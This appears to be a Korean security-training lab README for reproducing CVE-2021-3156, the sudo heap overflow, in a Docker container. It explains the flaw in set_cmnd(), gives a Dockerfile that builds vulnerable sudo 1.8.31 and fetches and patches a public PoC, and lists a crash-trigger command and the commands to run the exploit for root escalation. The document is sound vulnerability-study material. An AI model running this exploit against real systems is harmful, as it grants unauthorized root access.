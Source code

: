 # CVE-2021-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)

https://github.com/Gayang2902/kr-vulhub/tree/main/sudo/CVE-2021-3156

----
### 요약
**CVE-2021-3156**
CVE-2021-3156은 sudo 명령어의 특정 함수에서 발생하는 힙 버퍼 오버플로우 관련 취약점입니다.

이 취약점은 사용자 입력의 이스케이프(`\`)를 처리하는 과정에서 버퍼 오버플로우가 발생하여 트리거됩니다. 
크게 Privilege Escalation(권한 상승), Arbitary Code Execution(임의 코드 실행)으로 이어질 수 있습니다.

2021년 1월 경 Qualys의 연구팀에 의해 발견되었으며 2011년 7월 이후의 대부분의 리눅스 배포판에 영향을 미칩니다. 

본 보고서에서도 이에 영향을 받는 베이스 이미지인 Ubuntu 20.04 버전의 이미지를 사용하였습니다.

**CVE 등록 정보**
- CVSS: 7.8(높음)   
- 공격 벡터: 로컬
- 공격 복잡성: 낮음
- 필요 권한: 낮음

**발생하는 이유**

`sudo`와 함께 사용되는 `sudoedit` 명령어에서 사용자 입력 파싱 로직을 실행하는 함수인 `set_cmnd()`에서 힙 버퍼 오버플로우가 발생합니다.
아래는 해당 취약점이 발생하는 코드입니다.
```c
for (size = 0, av = NewArgv + 1; *av; av++)
size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) {
    ...
}
...
    *to++ = *from++;
```
- 인자 값 복사 이전에 `size` 변수가 확정되어 힙 버퍼 오버플로우에 취약
- 사용자 입력(argv)을 `to` 변수에 이스케이프 처리하여 복사하지만 `\\`와 같은 입력이 들어오면 `to`와 `from`의 길이가 맞지 않게 됨 -> 계속된 복사 작업으로 인한 잘못된 메모리 접근이 발생함
  
이로 인해 공격자는 힙 공간에 악의적인 값을 삽입하는 것이 가능해집니다.
****
### 환경 구성
CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
따라서 아래와 같이 `dockerfile`을 구성하였습니다.
- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
- 공개된 github PoC 코드 사용
  - https://github.com/CyberCommands/CVE-2021-3156.git
  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
```Dockerfile
# CVE-2021-3156

# 베이스 이미지 설정
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=nointeractive

# 필요한 패키지 설치
RUN apt-get update -y
RUN apt-get install -y build-essential \
                       make wget whois \
                       gdb git python3-pip \
                       libssl-dev libffi-dev \
                       python3-dev sudo

# 취약한 sudo 빌드 및 설치
WORKDIR /root
RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
RUN tar -xf sudo-1.8.31.tar.gz && \
    cd sudo-1.8.31/ && \
    mkdir build && cd build && \
    ../configure --enable-env-debug && \
    make -j && make install

# 테스트 유저 생성 및 설정
RUN useradd -ms /bin/bash Gayang2902
WORKDIR /home/Gayang2902
COPY ./vuln_check /home/Gayang2902/vuln_check

# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
## 1. argv 변수 수정
## 2. sudoedit 경로 수정
RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
    cd CVE-2021-3156 && \
    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
    make && \
    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit

USER Gayang2902

CMD [ "bash" ]

```
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 익스플로잇 시연
1. **이미지 빌드**
![alt text](images/image_build.png)
2. **취약한 버전으로 빌드되었는지 확인**
![alt text](images/vuln_check.png)
3. **PoC 시연**
![alt text](images/image.png)
### 정리
위의 과정으로 빌드를 완료하고 PoC를 실행시키면 취약점을 이용하여 sudo 그룹에 속해있거나 sudoers에 등록되어 있지 않은 일반 사용자에서 root 계정으로 권한 상승이 되는 것을 확인할 수 있습니다.